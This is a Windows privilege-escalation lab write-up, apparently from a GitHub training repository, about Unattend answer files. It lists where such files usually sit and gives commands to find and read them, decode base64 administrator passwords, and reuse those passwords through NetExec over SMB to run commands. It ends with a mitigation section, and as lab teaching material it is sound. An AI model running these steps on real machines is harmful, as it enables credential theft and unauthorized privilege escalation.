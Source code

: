 # Answer files (Unattend files)

## Table of Contents

- [Answer files (Unattend files)](#answer-files-unattend-files)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup) 
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Unattend files, also commonly referred to as "Answer files" in the context of Windows installations, are XML-based configuration files aimed at optimizing the installation process. These files contain an extensive range of settings and configurations, empowering unattended or automated installation procedures.

An adversary could potentially exploit Unattend files by reading their contents to obtain encoded passwords and gain unauthorized access to privileged accounts or sensitive resources.

The following locations commonly contain answer files that may include local administrator credentials:

- `C:\Windows\Panther\unattend.xml`
- `C:\Windows\Panther\Unattend\unattend.xml`
- `C:\Windows\System32\Sysprep\unattend.xml`
- `C:\Windows\System32\Sysprep\sysprep.xml`
- `C:\Windows\System32\Sysprep\Panther\unattend.xml`
- `C:\Windows\sysprep.inf`
- `C:\Windows\unattend.xml`
- `C:\unattend.xml`
- `C:\sysprep.inf`

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Open a PowerShell with local Administrator privileges and run the following command to create a new folder:

```
mkdir "C:\Windows\Panther\Unattend\"
```

2) Download the file [unattend.xml](/Lab-Setup-Source-Code/unattend.xml) to the 'C:\Windows\Panther\Unattend\' directory.

Outcome:

![Answer-Files-Manual-Lab-Set-Up](/Pictures/Answer-Files-Manual-Lab-Set-Up.png)

### PowerShell Script Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Answer files (Unattend files)' scenario use the custom PowerShell script named [AnswerFiles.ps1](/Lab-Setup-Scripts/AnswerFiles.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\AnswerFiles.ps1
```

Outcome:

![Answer-Files-Script-Lab-Set-Up](/Pictures/Answer-Files-Script-Lab-Set-Up.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify if there are any answer files that may contain useful credentials, you can use the following PowerShell command:

```
Write-Host `n;foreach ($file in @('C:\Windows\Panther\unattend.xml', 'C:\Windows\Panther\Unattend\unattend.xml', 'C:\Windows\System32\Sysprep\unattend.xml', 'C:\Windows\System32\Sysprep\sysprep.xml', 'C:\Windows\System32\Sysprep\Panther\unattend.xml', 'C:\Windows\sysprep.inf', 'C:\Windows\unattend.xml', 'C:\unattend.xml', 'C:\sysprep.inf')) { if (Test-Path $file) { Write-Host "[+] $file" } }; Write-Host `n
```

Outcome:

![Answer-Files-Manual-Enumeration](/Pictures/Answer-Files-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Answer files (Unattend files)`, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit UnattendedInstallFiles
```

Outcome:

![Answer-Files-Tool-Enumeration](/Pictures/Answer-Files-Tool-Enumeration.png)

## Exploitation

1) Read the content of the found answer file:

```
type  C:\Windows\Panther\Unattend\Unattend.xml
```

Outcome:

![Answer-Files-Exploitation](/Pictures/Answer-Files-Exploitation.png)

2) To decode the base64 password field, use the following command from your Linux attacking machine:

```
echo "<base64 string>" | base64 -d
```

Outcome:

![Answer-Files-Exploitation-2](/Pictures/Answer-Files-Exploitation-2.png)

3) Obtaining the credentials can be accomplished through several methods, which you can then utilize to elevate privileges if these credentials are valid.

Some of the common services are:

- Remote Desktop Protocol (RDP)
- Windows Remote Management (WinRM) (If it is enabled)
- Server Message Block (SMB)
- Windows Management Instrumentation (WMI)
- Virtual Network Computing (VNC) (If it is enabled)

To identify a valid authentication method, you can use [NetExec](https://github.com/Pennyw0rth/NetExec).

This is an example of using the SMB service to authenticate against the workstation and execute a command:

```
nxc smb <ip> -u <username> -p '<password>' -x whoami
```

Outcome:

![Credentials-Exploitation](/Pictures/Hardcoded-Credentials-Exploitation.png)

## Mitigation

Please ensure that password fields utilize strong encryption formats, or consider removing them if they are not necessary for the use of these files.

## References

- [Answer files (unattend.xml) Microsoft](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/update-windows-settings-and-scripts-create-your-own-answer-file-sxs?view=windows-11)
- [Unattend-Files by Bordergate](https://www.bordergate.co.uk/windows-privilege-escalation/#Unattend-Files)
- [Answer Files Overview Microsoft](https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/wsim/answer-files-overview)
